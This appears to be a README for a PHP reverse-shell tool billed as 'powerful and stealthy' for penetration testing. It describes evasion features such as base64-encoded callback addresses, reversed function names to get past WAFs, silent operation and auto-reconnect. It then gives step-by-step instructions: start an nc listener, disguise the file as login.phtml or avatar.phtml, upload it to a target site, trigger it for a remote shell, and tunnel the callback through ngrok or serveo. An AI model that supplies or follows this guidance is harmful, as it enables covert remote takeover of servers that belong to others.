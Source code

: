 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It quietly connects back to your machine reliably without showing any output.

## Features
- IP and shell command are Base64 encoded for stealth and easy customization

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like Cloudflared, Ngrok, Serveo, and others

- Upload with `.phtml` extension to bypass some filters

  ## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**

Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
Copy the output and replace the $ip_b64 value in the PHP script.

**3. Update your PHP reverse shell script:**

Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload**

Rename the file to something less suspicious, for example:

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

Using the `.phtml` extension helps the file run on some servers that block `.php`.

Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.

## Using Tunneling (When Your IP is Not Public)
If you're using mobile data or behind a router (NAT), your IP might not be public.
In that case, the reverse shell can't reach your machine directly.

To fix this, use TCP tunneling tools like Ngrok or Serveo.

#### Ngrok (Recommended)
Install Ngrok   
Run this command:

```bash
ngrok tcp 4444
```
It will show something like:

```nginx
Forwarding tcp://4.tcp.ngrok.io:18900
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of 4.tcp.ngrok.io;
$port = 18900;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
#### Serveo

**Run this command:**

```bash
ssh -R 0:localhost:4444 serveo.net
```
**It will say something like:**

```csharp
Forwarding TCP connections from serveo.net:46603
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of serveo.net;
$port = 46603;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
